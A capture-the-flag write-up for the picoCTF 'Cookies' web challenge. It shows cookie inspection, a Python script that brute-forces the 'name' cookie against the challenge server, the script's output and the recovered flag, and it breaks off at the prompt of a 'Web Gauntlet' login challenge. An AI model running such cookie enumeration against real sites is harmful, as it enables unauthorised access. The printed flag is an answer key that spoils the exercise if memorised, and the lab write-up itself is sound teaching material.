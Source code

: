 # 1.Cookies:
> Who doesn't love cookies? Try to figure out the best one. (http://mercury.picoctf.net:64944/)

## Solution:
- I first opened the website in my web browser and opened the inspection page to find the cookie .
- I navigated to the application tab and to the cookie area when I observed:
- <img width="500" height="500" alt="cookie" src="https://github.com/user-attachments/assets/5c320f2c-156f-4298-96ec-611193230749" />
- so here we see that `cookie: name=-1`
- now I tried entering different names of cookies in a search box `snickerdoodle` changed `name=0` . Next , `chocolate chip` changed `name=1` etc. , so the values kept changing with the input of different cookie names and it went back to `name=-1` otherwise.
- From this , I noticed with every accepted response , the webpage (http://mercury.picoctf.net:64944/check), checks the cookie and displays a message.
- Method 1: I tried changing the value of the cookie and reload the webpage , after trying numbers 1-18 , I found that at 18 it displays the flag.
<img width="500" height="500" alt="flag" src="https://github.com/user-attachments/assets/ff9d0140-f03e-4eaa-88b8-6703e7e7fd35" />

- Method 2: I tried to learn how to write a python code to bruteforce through a set of values .
- I used the following code with the help of A.I to brute force it.
```
#!/usr/bin/env python3
import requests, re

URL = "http://mercury.picoctf.net:64944/"         
pat = re.compile(r"picoCTF\{.*?\}", re.I)

for i in range(25):                                
    r = requests.get(URL, cookies={"name": str(i)}, timeout=6)
    if pat.search(r.text):
        print("FOUND for name=", i, "->", pat.search(r.text).group(0))
        break
    print(i, "status", r.status_code, "len", len(r.text))
```
- using the nano editor in the terminal , I added this code and ran it using python3 :
```
:~$ python3 quick-check.py
0 status 200 len 1779
1 status 200 len 1780
2 status 200 len 1780
3 status 200 len 1776
4 status 200 len 1776
5 status 200 len 1779
6 status 200 len 1777
7 status 200 len 1771
8 status 200 len 1774
9 status 200 len 1770
10 status 200 len 1774
11 status 200 len 1772
12 status 200 len 1772
13 status 200 len 1774
14 status 200 len 1770
15 status 200 len 1776
16 status 200 len 1774
17 status 200 len 1771
FOUND for name= 18 -> picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}
```
## Flag:
`picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}`

# 2.Web Gauntlet:
> Can you beat the filters?
Log in as admin http://shape-facility.picoctf.net:62879/ http://shape-facility.picoctf.net:62879/filter.php
